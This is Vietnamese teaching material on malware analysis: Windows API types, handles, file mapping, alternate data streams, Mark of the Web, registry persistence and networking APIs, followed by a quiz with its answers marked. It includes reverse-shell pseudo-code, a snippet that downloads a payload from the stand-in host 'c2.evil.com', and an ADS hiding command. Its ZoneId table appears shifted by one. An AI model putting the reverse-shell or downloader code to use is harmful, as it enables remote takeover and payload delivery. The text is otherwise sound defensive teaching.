






# Bài 4: Phân Tích Chương Trình Windows Độc Hại — Phần A

---

## Windows API — Tổng Quan

Windows API là "cánh cửa" duy nhất mà mọi chương trình — kể cả malware — phải đi qua để tương tác với hệ điều hành. Hiểu API là hiểu được "ngôn ngữ" mà malware nói chuyện với Windows.

### Khái niệm & lý thuyết

**Windows API (WinAPI)** là tập hợp các hàm, kiểu dữ liệu và quy ước do Microsoft cung cấp, cho phép ứng dụng tương tác với các thư viện hệ thống (DLL như `kernel32.dll`, `user32.dll`, v.v.).

Đặc điểm nổi bật:

- API đủ phong phú đến mức lập trình viên Windows **hiếm khi cần thư viện bên thứ ba**
- Malware **bắt buộc phải dùng WinAPI** để thực hiện hầu hết các hành vi độc hại (tạo file, kết nối mạng, chỉnh registry...)
- Việc nhận biết các API call giúp analyst suy ra **hành vi của malware mà không cần chạy nó**

---

### Khái niệm & lý thuyết — Types & Hungarian Notation

**Hungarian Notation** là quy ước đặt tên biến bằng cách thêm **tiền tố (prefix)** để biểu thị kiểu dữ liệu. Windows API dùng quy ước này xuyên suốt.

| Kiểu (Type) | Prefix | Ý nghĩa |
|---|---|---|
| **WORD** | `w` | Số nguyên không dấu 16-bit |
| **DWORD** | `dw` | Số nguyên không dấu 32-bit |
| **Handle** | `H` | Tham chiếu đến một object |
| **Long Pointer** | `LP` | Con trỏ trỏ đến kiểu khác |

!!! note "Ví dụ thực tế"
    Hàm `VirtualAllocEx` có tham số thứ ba là `dwSize` → prefix `dw` → đây là kiểu **DWORD** (32-bit unsigned int). Khi đọc disassembly, biết điều này giúp bạn hiểu ngay dữ liệu đang được truyền vào.

**Suffix A/W và Ex:**

- **`A`** = ASCII string version (ví dụ: `CreateFileA`)
- **`W`** = Wide character / Unicode version (ví dụ: `CreateFileW`)
- **`Ex`** = Extended version — khi Microsoft cập nhật hàm nhưng vẫn giữ hàm cũ để tương thích ngược (ví dụ: `CreateWindowEx`)

!!! warning "Lưu ý khi tra tài liệu"
    Khi gặp `RegOpenKeyExW` trong disassembly, hãy **bỏ ký tự `W` cuối** rồi tra Microsoft Docs → tìm `RegOpenKeyEx`. Nếu bỏ nhầm hay giữ nguyên `W`, bạn sẽ không tìm thấy tài liệu.

---

### Khái niệm & lý thuyết — Handles

**Handle** là một định danh (identifier) do Windows cấp phát khi một object (file, process, window, socket...) được mở hoặc tạo ra.

Đặc điểm của handle:

- Giống con trỏ ở chỗ: **tham chiếu đến một vị trí/object** ở nơi khác
- Khác con trỏ ở chỗ: **không dùng được trong phép tính số học**, không nhất thiết là địa chỉ bộ nhớ thực
- Cách dùng duy nhất: **lưu lại** và **truyền vào các hàm API tiếp theo** để thao tác cùng object đó

### Cách hoạt động / Luồng xử lý



### Ví dụ thực tế & Analogy

**Ví dụ:** Hàm `CreateWindowEx` trả về `HWND` — handle đến cửa sổ vừa tạo. Muốn đóng cửa sổ đó, bạn gọi `DestroyWindow(hWnd)`. Không có handle → không làm gì được với cửa sổ đó.

**Analogy:** Handle giống như **số thẻ gửi xe**. Khi bạn gửi xe (tạo object), bảo vệ đưa cho bạn một tờ phiếu (handle). Muốn lấy xe lại (thao tác với object), bạn phải đưa đúng phiếu đó. Phiếu không phải là xe, nhưng không có phiếu thì không lấy được xe.

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! danger "Sai lầm phổ biến"
    Nhiều sinh viên nhầm Handle với con trỏ (pointer) và thử dùng handle để tính toán địa chỉ bộ nhớ → **sai hoàn toàn**. Handle chỉ có một công dụng: truyền vào API call tiếp theo.

### Câu hỏi thực tế

1. Khi phân tích một file binary và thấy hàm `CreateFileA` trả về một giá trị rồi giá trị đó được truyền thẳng vào `ReadFile` — bạn nhận ra điều gì đang xảy ra?
2. Tại sao malware analyst cần hiểu Hungarian Notation khi đọc disassembly?

---

> 💡 **Chốt nhanh:** WinAPI là "ngôn ngữ" bắt buộc của mọi chương trình Windows. Handle là "phiếu gửi xe" — chỉ dùng để truyền vào API, không dùng tính toán. Prefix trong Hungarian Notation giúp đọc code nhanh hơn.

---

---

## File System Functions

Malware tương tác với file system là một trong những hành vi **dễ quan sát và dễ phát hiện nhất**. Hiểu các hàm file system giúp bạn nhận ra malware đang làm gì chỉ từ danh sách API imports.

### Khái niệm & lý thuyết

Hai nhóm hàm chính:

**Nhóm 1 — I/O thông thường:**

| Hàm | Vai trò |
|---|---|
| `CreateFile` | Tạo hoặc mở file (cũng dùng cho pipe, device) |
| `ReadFile` | Đọc dữ liệu từ file |
| `WriteFile` | Ghi dữ liệu vào file |

**Nhóm 2 — File Mapping (thường dùng bởi malware):**

| Hàm | Vai trò |
|---|---|
| `CreateFileMapping` | Load file từ đĩa vào RAM, tạo mapping object |
| `MapViewOfFile` | Trả về con trỏ đến base address của mapping |

### Cách hoạt động / Luồng xử lý



!!! note "Tại sao malware dùng File Mapping?"
    File mapping cho phép malware **load và thực thi một PE file mà không cần gọi Windows Loader** — giúp né tránh các hook/monitor đặt ở loader. Đây là kỹ thuật phổ biến trong process injection và reflective DLL loading.

### Ví dụ thực tế & Analogy

**Ví dụ thực tế:** Malware dùng `CreateFileMapping` + `MapViewOfFile` để load một file exe vào RAM, tự parse PE header, tự fix relocation, rồi nhảy thẳng vào entry point — tất cả mà không cần gọi `LoadLibrary` hay `CreateProcess`.

**Analogy:** `ReadFile` giống **đọc sách từng trang một** — chậm, tuần tự. `MapViewOfFile` giống **scan toàn bộ cuốn sách thành ảnh rồi mở trên màn hình** — bạn có thể nhảy đến bất kỳ trang nào ngay lập tức bằng cách di chuyển con trỏ màn hình.

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! warning "Dấu hiệu nhận biết"
    Nếu thấy một sample import cả `CreateFileMapping` lẫn `MapViewOfFile` — **đây là dấu hiệu đỏ**. Chương trình thông thường hiếm khi cần kỹ thuật này. Khả năng cao đây là malware đang tự load/thực thi code.

### Câu hỏi thực tế

1. Bạn thấy một file binary import `CreateFileMapping` và `MapViewOfFile`. Bạn sẽ đặt giả thuyết gì về hành vi của nó?
2. Sự khác biệt giữa dùng `ReadFile` và `MapViewOfFile` khi malware cần đọc và sửa một PE file là gì?

---

> 💡 **Chốt nhanh:** `CreateFile/ReadFile/WriteFile` là I/O thông thường. `CreateFileMapping + MapViewOfFile` là kỹ thuật "load file vào RAM như loader" — dấu hiệu đặc trưng của malware tinh vi.

---

---

## Special Files

Windows có nhiều loại "file đặc biệt" mà malware khai thác để né tránh phát hiện hoặc thực hiện các thao tác ngoài tầm kiểm soát của OS thông thường.

### Khái niệm & lý thuyết

**1. Shared Files & UNC Path:**

| Path format | Ý nghĩa |
|---|---|
| `\\server\share` | Truy cập file chia sẻ trên mạng (UNC path chuẩn) |
| `\\?\server\share` | Tắt string parsing của Windows, cho phép tên file dài hơn giới hạn MAX_PATH |

**2. Namespaces:**

| Namespace | Ký hiệu | Ý nghĩa |
|---|---|---|
| **NT Namespace** | `\` | Namespace thấp nhất, chứa tất cả — kể cả device và các namespace khác |
| **Win32 Device Namespace** | `\\.\` | Truy cập trực tiếp vào thiết bị vật lý |

**3. Alternate Data Streams (ADS):**

**ADS** là luồng dữ liệu thứ hai được đính kèm vào một file trong hệ thống NTFS. Cú pháp: `filename.txt:hidden_stream.txt`

**4. Windows Mark of the Web (MotW):**

Khi file được tải từ Internet, Windows ghi thông tin vào ADS tên `Zone.Identifier`:

```
[ZoneTransfer]
ZoneId=3
ReferrerUrl=https://example.com
HostUrl=https://cdn.example.com/file.exe
```

| ZoneId | Vùng |
|---|---|
| 1 | Local computer |
| 2 | Local intranet |
| 3 | Trusted site |
| 4 | Internet (MotW áp dụng mặc định) |
| 5 | Restricted site |

### Cách hoạt động / Luồng xử lý



### Ví dụ thực tế & Analogy

**Ví dụ — Device Namespace:** Worm **Witty** (2004) ghi thẳng vào `\\.\PhysicalDisk1` để corrupt dữ liệu ổ đĩa — không tạo file nào, không bị file-based antivirus phát hiện.

**Ví dụ — ADS:** Malware có thể ẩn payload vào `legitimate.txt:evil.exe` — khi dùng `dir` trong CMD, file vẫn hiển thị kích thước của `legitimate.txt`, không ai thấy payload.

```powershell
# Tạo ADS
echo malicious_content > legit.txt:hidden.exe

# Xem ADS
Get-Item .\legit.txt -Stream *

# Đọc ADS (ví dụ MotW)
Get-Content .\downloaded.exe -Stream Zone.Identifier
```

**Analogy — ADS:** Giống như **quyển sách có khoang bí mật** bên trong bìa — nhìn ngoài thấy sách bình thường, nhưng bên trong bìa có thể giấu vật khác mà không ai nghi ngờ.

**Analogy — MotW:** Giống **tem kiểm dịch hải quan** dán lên hàng nhập khẩu — Windows dùng MotW để biết file "từ đâu đến" và quyết định có hiện cảnh báo hay không.

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! danger "MotW Bypass — Mối đe dọa thực tế"
    Kẻ tấn công thường dùng file `.iso`, `.zip` có mật khẩu, hoặc các định dạng container để **bypass MotW** — khi giải nén, file bên trong không được kế thừa MotW từ container. Đây là kỹ thuật phổ biến trong các chiến dịch phishing hiện đại.

!!! warning "Lệnh dir không hiện ADS"
    `dir` trong CMD **không hiển thị ADS**. Phải dùng `dir /R` hoặc PowerShell `Get-Item -Stream *` mới thấy được luồng ẩn.

### Câu hỏi thực tế

1. Một file `report.docx` được tải về từ internet nhưng khi mở không có cảnh báo Protected View. Bạn kiểm tra và thấy không có `Zone.Identifier` stream. Điều gì có thể đã xảy ra?
2. Tại sao malware lại dùng `\\.\PhysicalDisk1` thay vì ghi file bình thường vào ổ C:?
3. Bạn làm IR (Incident Response) và cần kiểm tra xem có ADS đáng ngờ nào không — bạn dùng lệnh gì?

---

> 💡 **Chốt nhanh:** `\\.\` cho phép truy cập thiết bị vật lý trực tiếp — né hoàn toàn filesystem. ADS giấu dữ liệu trong file NTFS không nhìn thấy bằng mắt thường. MotW là cơ chế Windows đánh dấu file từ Internet — bypass MotW là kỹ thuật tấn công hiện đại.

---

---

## Windows Registry

Registry là "bộ não cấu hình" của Windows — và cũng là nơi malware **hay nhất, dễ nhất để duy trì persistence**.

### Khái niệm & lý thuyết

**Registry** là cơ sở dữ liệu phân cấp (hierarchical database) lưu trữ toàn bộ cấu hình của Windows và các ứng dụng, thay thế cho file `.ini` từ thời Windows cũ.

**Thuật ngữ cốt lõi:**

| Thuật ngữ | Ý nghĩa |
|---|---|
| **Root Key / Hive / HKEY** | 5 key cấp cao nhất, gốc của toàn bộ registry |
| **Key** | "Thư mục" trong registry, có thể chứa subkey hoặc value |
| **Subkey** | Key nằm bên trong một key khác (thư mục con) |
| **Value Entry** | Một mục dữ liệu gồm: tên + kiểu + dữ liệu |
| **Value / Data** | Dữ liệu thực sự được lưu trong một value entry |

**5 Root Keys:**

| Root Key | Viết tắt | Nội dung |
|---|---|---|
| `HKEY_LOCAL_MACHINE` | **HKLM** | Cấu hình toàn máy (tất cả user) |
| `HKEY_CURRENT_USER` | **HKCU** | Cấu hình riêng cho user đang đăng nhập |
| `HKEY_CLASSES_ROOT` | HKCR | Định nghĩa file type, COM classes |
| `HKEY_CURRENT_CONFIG` | HKCC | Cấu hình phần cứng hiện tại |
| `HKEY_USERS` | HKU | Cấu hình cho tất cả user profiles |

### Cách hoạt động / Luồng xử lý — Run Key (Persistence)



**Các hàm Registry API quan trọng:**

| Hàm | Vai trò |
|---|---|
| `RegOpenKeyEx` | Mở một registry key để đọc hoặc chỉnh sửa |
| `RegSetValueEx` | Thêm hoặc cập nhật một value trong registry |
| `RegGetValue` | Đọc dữ liệu của một value entry |

### Ví dụ thực tế & Analogy

**Ví dụ — Malware persistence qua Run Key:**

```
; Đoạn assembly khi malware ghi vào Run key
push  2                          ; samDesired = KEY_SET_VALUE  
push  eax                        ; ulOptions
push  offset SubKey              ; "Software\Microsoft\Windows\CurrentVersion\Run"
push  HKEY_LOCAL_MACHINE         ; hKey
call  RegOpenKeyExW

; Sau đó gọi RegSetValueEx để ghi tên malware vào key này
```

Mỗi lần Windows khởi động, malware được chạy lại — đây là kỹ thuật **persistence cơ bản nhất** mà mọi analyst cần nhận ra ngay.

**Ví dụ — File .REG:** Registry có thể export/import qua file `.reg` — malware có thể tạo file `.reg` và dùng `regedit /s` để import silently (không hiện hộp thoại xác nhận).

**Analogy:** Registry giống **sổ đăng ký hộ khẩu của Windows** — mọi chương trình "muốn sống" trong Windows đều phải đăng ký ở đây. Malware chỉ cần "nhét tên mình vào sổ hộ khẩu" ở Run key là đảm bảo sống sót qua mỗi lần reboot.

**Analogy — HKLM vs HKCU:** HKLM giống **nội quy chung của tòa nhà** (áp dụng cho tất cả cư dân), HKCU giống **quy tắc riêng của từng căn hộ** (chỉ áp dụng cho chủ nhân).

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! warning "Autoruns không bắt được tất cả"
    Tool **Autoruns** của Sysinternals kiểm tra 25-30 vị trí registry, nhưng **không phải tất cả**. Malware tinh vi có thể dùng các key ít biết đến hơn để né Autoruns.

!!! danger "HKCU không cần Admin rights"
    Malware chạy với quyền **user thường** vẫn có thể ghi vào `HKCU\...\Run` để persistence — không cần quyền Administrator. Đây là lý do tại sao ngay cả user không có quyền cao vẫn có thể bị nhiễm malware persistence.

### Câu hỏi thực tế

1. Bạn phân tích một sample và thấy nó gọi `RegOpenKeyEx` với path `Software\Microsoft\Windows\CurrentVersion\Run`. Bạn kết luận gì về mục đích của malware?
2. Tại sao malware thích dùng `HKCU\Run` hơn `HKLM\Run` trên máy tính thông thường (không phải máy admin)?
3. Một user báo rằng sau khi reboot, một chương trình lạ cứ tự khởi động. Bạn sẽ kiểm tra những vị trí nào đầu tiên?

---

> 💡 **Chốt nhanh:** Registry là kho cấu hình trung tâm của Windows. Run Key (`HKLM/HKCU\...\Run`) là điểm persistence **phổ biến nhất** của malware. `RegOpenKeyEx` → `RegSetValueEx` là combo API để malware "đặt chân" vào registry.

---

---

## Networking APIs

Khi malware cần "gọi về nhà" (C2 communication), download payload, hay tạo backdoor — nó phải dùng Networking API. Biết các hàm này giúp bạn phát hiện và phân tích lưu lượng mạng độc hại.

### Khái niệm & lý thuyết

**Hai tầng API mạng chính:**

```
┌─────────────────────────────────────────┐
│          WinINet API (cao cấp)          │  ← HTTP, FTP, giao thức Application layer
│     InternetOpen, InternetOpenURL...    │
├─────────────────────────────────────────┤
│        Winsock / Berkeley Sockets       │  ← TCP/UDP raw socket, tương tự Unix
│    socket, bind, connect, send, recv    │
├─────────────────────────────────────────┤
│           Network Stack (OS)            │
└─────────────────────────────────────────┘
```

**Winsock** (trong `ws2_32.dll`): API socket tương thích Berkeley, gần như giống hệt Unix socket.

**Hàm Winsock quan trọng:**

| Hàm | Vai trò |
|---|---|
| `WSAStartup` | **Bắt buộc gọi đầu tiên** trước mọi Winsock function — khởi tạo thư viện mạng |
| `socket` | Tạo một socket mới |
| `bind` | Gắn socket vào một port cụ thể (phía server) |
| `listen` | Đánh dấu socket đang lắng nghe kết nối đến |
| `accept` | Chấp nhận kết nối từ client |
| `connect` | Kết nối đến server (phía client) |
| `send` | Gửi dữ liệu qua socket |
| `recv` | Nhận dữ liệu từ socket |

**WinINet** (trong `Wininet.dll`): API cấp cao hơn, implement sẵn HTTP/FTP.

| Hàm | Vai trò |
|---|---|
| `InternetOpen` | Khởi tạo kết nối Internet |
| `InternetOpenURL` | Kết nối đến một URL cụ thể |
| `InternetReadFile` | Đọc dữ liệu từ URL (download) |

### Cách hoạt động / Luồng xử lý





### Ví dụ thực tế & Analogy

**Ví dụ — Reverse Shell:** Malware dùng `socket` + `connect` để kết nối ra ngoài (bypass firewall vì outbound thường cho phép), sau đó tạo `cmd.exe` với stdin/stdout/stderr được redirect vào socket. Kết quả: attacker gõ lệnh từ xa, lệnh chạy trên máy nạn nhân.

```c
// Pseudo-code của reverse shell đơn giản nhất
SOCKET s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, &c2_addr, sizeof(c2_addr));

STARTUPINFO si = {0};
si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)s;
si.dwFlags = STARTF_USESTDHANDLES;

CreateProcess("cmd.exe", NULL, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
```

**Ví dụ — Dùng WinINet để download payload:**

```c
HINTERNET hNet = InternetOpen("Mozilla/5.0", ...); // Fake user-agent
HINTERNET hUrl = InternetOpenURL(hNet, "http://c2.evil.com/payload.exe", ...);
InternetReadFile(hUrl, buffer, bufferSize, &bytesRead);
// Ghi payload vào đĩa và thực thi
```

**Analogy — WSAStartup:** Giống như **cắm dây điện thoại vào ổ trước khi gọi** — không làm bước này thì mọi hàm mạng khác đều thất bại. Đây là lý do khi debug malware, đặt breakpoint ở `WSAStartup` là cách nhanh nhất để bắt đầu trace network activity.

**Analogy — Winsock vs WinINet:** Winsock giống **tự lái xe** — bạn kiểm soát hoàn toàn nhưng phải tự xử lý mọi thứ. WinINet giống **đặt taxi (Grab)** — đơn giản hơn, chỉ nói điểm đến (URL) là xong, nhưng ít kiểm soát hơn.

### ⚠️ Điểm hay gặp sai / Cần lưu ý

!!! danger "Bypass firewall bằng outbound connection"
    Firewall thường chặn **inbound** nhưng cho phép **outbound**. Đó là lý do malware dùng **reverse shell** (malware chủ động kết nối ra ngoài) thay vì bind shell (malware mở port và chờ). Khi phân tích, hãy chú ý chiều của kết nối.

!!! warning "WinINet có thể dùng proxy của hệ thống"
    `InternetOpen` với flag `INTERNET_OPEN_TYPE_PRECONFIG` sẽ tự động dùng proxy setting của IE/Windows — malware dùng điều này để blend vào traffic hợp lệ, né network monitoring.

!!! tip "Breakpoint trick"
    Khi dynamic analysis, đặt breakpoint ở `WSAStartup` — bất kỳ network activity nào cũng phải qua đây trước. Từ đó trace forward để thấy malware kết nối đi đâu.

### Câu hỏi thực tế

1. Bạn thấy một sample import `socket`, `connect`, `CreateProcess` và `STARTF_USESTDHANDLES` được set trong STARTUPINFO. Bạn đặt giả thuyết gì?
2. Sự khác biệt về mức độ kiểm soát và độ khó phân tích giữa malware dùng Winsock raw socket và malware dùng WinINet là gì?
3. Tại sao đặt breakpoint ở `WSAStartup` lại hữu ích hơn là đặt ở `connect` khi bắt đầu phân tích malware có network activity?

---

> 💡 **Chốt nhanh:** `WSAStartup` → `socket` → `connect/bind` → `send/recv` là flow cơ bản của Winsock. Reverse shell = connect ra ngoài + redirect cmd.exe vào socket. WinINet đơn giản hơn nhưng ít kiểm soát hơn — cả hai đều là dấu hiệu network C2 trong malware.

---

---

## 🧪 Quiz — Phần A

### Tầng 1 — Ghi nhớ (Kiến thức cơ bản)

---

**Câu 1.** Trong Windows API, kiểu dữ liệu `DWORD` có kích thước là bao nhiêu?

- [x] 32-bit unsigned integer
- [ ] 16-bit unsigned integer
- [ ] 64-bit unsigned integer
- [ ] 8-bit unsigned integer

??? info "Giải thích"
    `DWORD` = Double WORD = 32-bit unsigned integer. `WORD` = 16-bit. Prefix `dw` trong Hungarian Notation biểu thị kiểu DWORD.

---

**Câu 2.** Trong Hungarian Notation, biến `lpszFileName` có prefix `lp` cho biết điều gì?

- [x] Đây là một Long Pointer (con trỏ) trỏ đến một kiểu dữ liệu khác
- [ ] Đây là một giá trị 16-bit
- [ ] Đây là một Handle đến một object
- [ ] Đây là một DWORD value

??? info "Giải thích"
    Prefix `LP` = Long Pointer — biến này là một con trỏ trỏ đến kiểu dữ liệu khác. `lpsz` = Long Pointer to a String Zero-terminated.

---

**Câu 3.** Khi gặp hàm `CreateDirectoryW` trong disassembly, bạn cần tra tài liệu với tên hàm nào?

- [x] `CreateDirectory`
- [ ] `CreateDirectoryW`
- [ ] `CreateDirectoryA`
- [ ] `CreateDir`

??? info "Giải thích"
    Suffix `W` (Wide/Unicode) và `A` (ASCII) **không xuất hiện trong tài liệu chính thức** của Microsoft. Phải bỏ suffix `W` hoặc `A` rồi mới tra. Tên trong docs là `CreateDirectory`.

---

**Câu 4.** Handle trong Windows API khác con trỏ (pointer) ở điểm nào cơ bản nhất?

- [x] Handle không thể dùng trong phép tính số học và không nhất thiết là địa chỉ bộ nhớ thực
- [ ] Handle luôn có kích thước 64-bit còn pointer có thể 32 hoặc 64-bit
- [ ] Handle chỉ dùng cho file còn pointer dùng cho tất cả
- [ ] Handle là kiểu dữ liệu của kernel còn pointer là của user space

??? info "Giải thích"
    Handle là định danh opaque — bạn chỉ có thể lưu nó và truyền vào API call tiếp theo, không thể dùng để tính toán địa chỉ như con trỏ thông thường.

---

